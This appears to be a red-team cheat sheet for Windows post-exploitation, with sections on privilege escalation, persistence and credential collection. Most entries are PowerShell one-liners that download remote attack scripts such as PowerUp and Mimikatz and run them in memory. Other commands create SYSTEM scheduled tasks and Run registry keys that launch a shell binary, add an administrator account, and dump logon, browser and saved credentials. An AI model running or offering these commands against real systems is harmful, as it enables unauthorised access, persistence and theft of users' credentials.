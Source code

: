 ## Privilege Escalation

### PowerUp
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks
```

### SharpUp
```
https://github.com/GhostPack/SharpUp
```

### Sherlock
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
Find-AllVulns
```

### Watson
```
https://github.com/rasta-mouse/Watson
```

## Persistence

### Create new task
```
schtasks /create /sc minute /mo 1 /tn "eviloo" /tr C:\shell.exe /ru "SYSTEM"
schtasks /create /sc onlogon /tn "task-name" /tr "File" /ru "username"
```

### Add User
```
net user testuser P@ssw0rd /add
net localgroup administrators testuser /add
```

### Create Service
```
sc create evilsvc binPath= "c:\Windows\System32\calc.exe" start= "auto"
```

### Registry Keys
```
REG ADD HKEY_CURRENT_USER\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
```

### StartUp Folder (Run(shell:startup))
```
C:\Users\Hassan.saad\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

## Collecting Credentials

### Memory Credentials Dump
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/hassan0x/test/master/mim.ps1')
Invoke-Mimikatz -Command 'privilege::debug'
Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/HostEnumeration/Screen1.png?raw=true)

### Windows Credentials Manager
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1')
Invoke-WCMDump
```

### Web Credentials Manager
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1')
Get-WebCredentials
```

### Chrome Passwords
```
https://github.com/ohyicong/decrypt-chrome-passwords/raw/main/decrypt_chrome_password.exe
```

### Chrome History
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1')
Get-ChromeDump > chromepwds.txt
```

### Other Saved Credentials
```
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1')
Invoke-SessionGopher -Thorough
```

